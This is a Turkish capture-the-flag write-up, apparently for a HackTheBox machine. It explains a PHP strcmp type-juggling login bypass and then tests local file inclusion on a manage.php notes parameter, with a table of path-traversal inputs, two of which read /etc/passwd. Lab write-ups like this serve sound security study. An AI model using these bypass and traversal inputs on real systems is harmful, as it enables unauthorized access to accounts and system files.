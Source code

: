 - `strcmp(array(), "admin")` **NULL döndü**.
- **NULL == 0** olduğu için **"oops" ekrana yazdırıldı**.


### Bu Ne Anlama Geliyor?

```
if (strcmp($password, "admin") == 0) {
    // Giriş başarılı!
}
```

Eğer `$password` olarak **bir array gönderirsek**, `strcmp` NULL döndürür ve **NULL == 0 olarak değerlendirildiği için giriş başarılı olur**!

**Bu bir PHP zafiyetidir ve kimlik doğrulama bypass edilebilir!**

----


### Enumerate manage.php

Giriş yaptıktan sonra, yukarıda gösterildiği gibi **manage.php** sayfasına yönlendiriliyorum.  

Ana sayfa düğmesi, yalnızca **"Yapım Aşamasında"** görselini gösteriyor.  
Buna ek olarak, bir **Notes (Notlar)** düğmesi var ve bu düğme, **?notes=files/ninevehNotes.txt** parametresini aynı PHP sayfasına ekleyerek görselin altına bu metni yerleştiriyor:

![Pasted image 20250207225434.png](/img/user/resimler/Pasted%20image%2020250207225434.png)

"
Giriş sayfasını düzelttin mi! Sabitlenmiş kullanıcı adı ve şifre gerçekten kötü bir fikir!

İçeri girmek için **secret** (gizli) klasörünü kontrol et! Bunu çözmen gerekiyor!

**Veritabanı arayüzünü geliştirin.**  
~amrois

"

Sabitlenmiş kullanıcı adı ve şifreye sahip giriş sayfası, muhtemelen **type confusion** (tip karışıklığı) ile bypass ettiğim şeydir. **Gizli klasör** referansı ilginç. Buna daha sonra döneceğim. Ve **veritabanı arayüzü** ise zaten **istismar ettiğim bir şey**.


### LFI POC

Ne zaman argüman olarak bir dosya yolu veren bir url görsem, lokal file include için onu kurcalamak istiyorum (özellikle şimdi RCE'yi almak için ihtiyacım olan şey bu olduğu için).

Neler olup bittiğini anlamak için birkaç şey denedim:

| notes parameter                                            | Error Message                                                                                                                            |
| ---------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| `ninevehNotes.txt`                                         | No error, displays note                                                                                                                  |
| `/etc/passwd`                                              | No Note is selected.                                                                                                                     |
| `../../../../../../../../../../etc/passwd`                 | No Note is selected.                                                                                                                     |
| `ninevehNotes`                                             | Warning: include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31 |
| `ninevehNote`                                              | No Note is selected.                                                                                                                     |
| `files/ninevehNotes/../../../../../../../../../etc/passwd` | File name too long.                                                                                                                      |
| `files/ninevehNotes/../../../../../../../etc/passwd`       | The contents of `/etc/passwd`                                                                                                            |
| `/ninevehNotes/../etc/passwd`                              | The contents of `/etc/passwd`                                                                                                            |
